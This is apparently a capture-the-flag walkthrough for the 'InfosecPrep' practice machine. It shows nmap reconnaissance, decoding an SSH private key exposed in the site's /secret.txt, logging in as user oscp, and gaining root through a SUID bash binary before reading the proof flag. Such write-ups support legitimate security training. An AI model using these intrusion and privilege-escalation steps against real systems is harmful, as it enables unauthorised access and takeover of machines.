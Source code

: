 # InfosecPrep

- [Discovery](#discovery)
- [Foothold](#foothold)
- [Privilege Escalation](#privilege-escalation)

## Discovery

1) We run `nmap` to discover open TCP ports on the target

``` ┌──(kali㉿kali)-[~]
└─$ nmap -v -p- -T4 infosecprep

...

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
```

2) We run `nmap` again to determine additional information about running services including service versions


```
┌──(kali㉿kali)-[~]
└─$ nmap -v -p 22,80,33060 -T4 -A infosecprep

...

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=3/3%Time=65E4F885%P=aarch64-unknown-linux

              (... bunch of garbage, omitted for brevity ...)

SF:ssage\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Okay, so what immediately comes up to mind is we need to have a look at that WordPress 5.4.2 webserver

3) Checking out the webserver in the browser:

<img src="./assets/oscp-voucher.png" width=500px></img>

Seems like this box is a very CTF-like exercise...

We are given that there is a user `oscp` in the machine... that's nice.

## Foothold

4) From our `nmap` results we know that there was an entry in the webserver's `robots.txt` file for `/secret.txt`, so let's have a look at that too.

<img src="./assets/secret-txt-blob.png" width=500px></img>

A clearly base64 encoded blob... Let's decode it.

5) Decoding the blob we see that it is a private key:

```
┌──(kali㉿kali)-[~]
└─$ wget -q -O- http://infosecprep/secret.txt | base64 -d                                                  
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn

              (... whole key omitted for brevity ...)

kuoRiShh6uCjGCCH/WfwCof9enCej4HEj5EPj8nZ0cMNvoARq7VnCNGTPamcXBrfIwxcVT
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

6) What are the odds its for user `oscp`? Let's try it.

```
┌──(kali㉿kali)-[~]
└─$ wget -q -O- http://infosecprep/secret.txt | base64 -d > id_rsa.priv 
```

```
┌──(kali㉿kali)-[~]
└─$ ssh oscp@infosecprep -i id_rsa.priv 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

              (... whole banner omitted for brevity ...)

Last login: Sun Mar  3 23:28:26 2024 from 192.168.45.239
-bash-5.0$ whoami
oscp
```

...aaaand we are in! (as user `oscp`)

## Privilege Escalation

7) We aren't done yet, we want root! I check for odd binaries with SUID

```
-bash-5.0$ ls -la /usr/bin | grep rws
-rwsr-sr-x  1 daemon daemon     55560 Nov 12  2018 at
-rwsr-sr-x  1 root   root     1183448 Feb 25  2020 bash
-rwsr-xr-x  1 root   root       85064 May 28  2020 chfn
-rwsr-xr-x  1 root   root       53040 May 28  2020 chsh
-rwsr-xr-x  1 root   root       39144 Mar  7  2020 fusermount
-rwsr-xr-x  1 root   root       88464 May 28  2020 gpasswd
-rwsr-xr-x  1 root   root       55528 Apr  2  2020 mount
-rwsr-xr-x  1 root   root       44784 May 28  2020 newgrp
-rwsr-xr-x  1 root   root       68208 May 28  2020 passwd
-rwsr-xr-x  1 root   root       31032 Aug 16  2019 pkexec
-rwsr-xr-x  1 root   root       67816 Apr  2  2020 su
-rwsr-xr-x  1 root   root      166056 Feb  3  2020 sudo
-rwsr-xr-x  1 root   root       39144 Apr  2  2020 umount
```

Too easy! Bash has SUID!

8) Escalating ourselves by simply invoking bash with the `-p` flag (for privileged)

```
-bash-5.0$ bash -p 
bash-5.0# whoami
root
```

9) We find our flag in the usual place

```
bash-5.0# ls -la /root | grep -e proof -e txt
-rw-r--r--  1 root root   32 Aug 28  2020 flag.txt
-rw-r--r--  1 root root   33 Mar  3 22:18 proof.txt
bash-5.0# cat /root/proof.txt
71c987e5c7bddd8a2eaaf74208aec194
```
